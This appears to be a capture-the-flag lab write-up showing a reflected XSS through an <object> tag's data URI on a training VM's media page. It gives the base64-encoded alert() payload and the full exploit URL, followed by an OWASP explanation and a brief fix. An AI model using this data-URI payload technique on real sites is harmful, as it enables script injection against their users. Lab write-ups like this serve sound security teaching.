

# XSS advanced
We find the only clickable image on the site -> click on it
http://[VM_IP]/?page=media&src=nsa

Here we see that the image is in <object> but not in  tag
```
<object data="http://[VM_IP]/images/nsa_prism.jpg"></object>
```

What is [Object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)?
> The <object> HTML element represents an external resource, which can be treated as an image,
> a nested browsing context, or a resource to be handled by a plugin.

In order for our data to be processed as html, we use the following form:
```
<object data="data:text/html;base64,payload_in_base64"></object>
```

Let's encode our js code to base64
base64(<script>alert("crazy XSS attack");</script>) = "PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg=="

So, let's try this:
```
http://[VM_IP]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg==
```




## Explanation
Attack type: [XSS](https://owasp.org/www-community/attacks/xss/): Cross Site Scripting
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
> XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## How to fix it
> Use the  tag for images and be careful with the <object>.